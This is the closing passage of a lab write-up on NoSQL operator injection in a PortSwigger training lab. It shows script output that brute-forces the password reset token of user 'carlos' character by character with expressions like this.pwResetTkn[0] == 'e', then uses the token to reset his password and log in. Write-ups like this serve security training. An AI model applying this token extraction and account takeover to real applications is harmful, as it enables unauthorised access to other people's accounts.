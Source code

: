 ```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-4)-[2023.10.10|15:52:02(HKT)]
└> python3 extract_field_names.py
[*] Trying payload: this.pwResetTkn[0] == "e"
[+] Found valid character "e" on character position 0
[*] Trying payload: this.pwResetTkn[1] == "6"
[+] Found valid character "6" on character position 1
[...]
[*] Trying payload: this.pwResetTkn[15] == "9"
[+] Found valid character "9" on character position 15
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Password reset token: e6190495b173daa9
```

Now that we have the password reset token for user `carlos`!

But... Where does the password reset token can be used? **Maybe it's at endpoint `/forgot-password`?**

**After some educated guessing, I found that the password reset token field name `pwResetTkn` is the validating tokens' GET parameter!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010161738.png)

**Let's provide the correct token in the `pwResetTkn` parameter!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010161830.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010161841.png)

Then, we can **reset `carlos`'s password via sending a POST request to `/forgot-password` with parameter `csrf`, `pwResetTkn`, `new-password-1`, and `new-password-2`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010162036.png)

**Finally, we should be able to login as `carlos` with the new password:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010162104.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010162111.png)

## Conclusion

What we've learned:

1. Exploiting NoSQL operator injection to extract unknown fields